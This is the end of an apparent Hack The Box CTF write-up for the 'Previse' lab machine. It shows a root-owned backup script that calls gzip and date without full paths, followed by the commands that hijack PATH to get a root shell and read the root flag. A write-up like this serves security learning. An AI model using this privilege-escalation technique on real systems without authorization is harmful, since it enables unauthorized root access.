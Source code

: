 Interesting — here is the contents of access_backup.sh:
```
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Examining the script, it looks like development negligence turned in my favor. Both the `gzip` and `date` binaries are referenced relatively; therefore, we can edit PATH to point to my own `gzip`/`date` script(s). Consider the following commands, given that I have created a `date` program in `/home/m4lwhere`:
```
m4lwhere@previse:~$ export PATH=:/home/m4lwhere
m4lwhere@previse:~$ /bin/cat date
#!/bin/bash
/bin/su
m4lwhere@previse:~$ /usr/bin/sudo /opt/scripts/access_backup.sh 
root@previse:/home/m4lwhere# 
```

Root access has been granted!

### Obtaining the SYSTEM Flag
All that is left is to print the SYSTEM flag:
```
root@previse:/home/m4lwhere# ls /root
root.txt
root@previse:/home/m4lwhere# cat /root/root.txt
<REDACTED>
```

And there it is — the SYSTEM flag! The flag was accepted by HTB; thus, [Previse is complete](https://www.hackthebox.com/achievement/machine/787255/373).


## Conclusion
This was a very fun CTF overall, which I admit I found challenging despite the low difficulty rating relative to other HTB challenges. I had a lot of fun working on Previse, and it felt noticeably more accessible to me than some other HTB machines I've attempted. I learned a lot and I encourage others interested in red team security activities to give their own best effort toward this challenge... even if they end up with 50+ open browser tabs at the end like I did.

I hope you found this guide helpful or inspirational. Thank you so much for reading, and check back soon for more activity reports.

-Sid

https://www.hackthebox.com/achievement/machine/787255/373
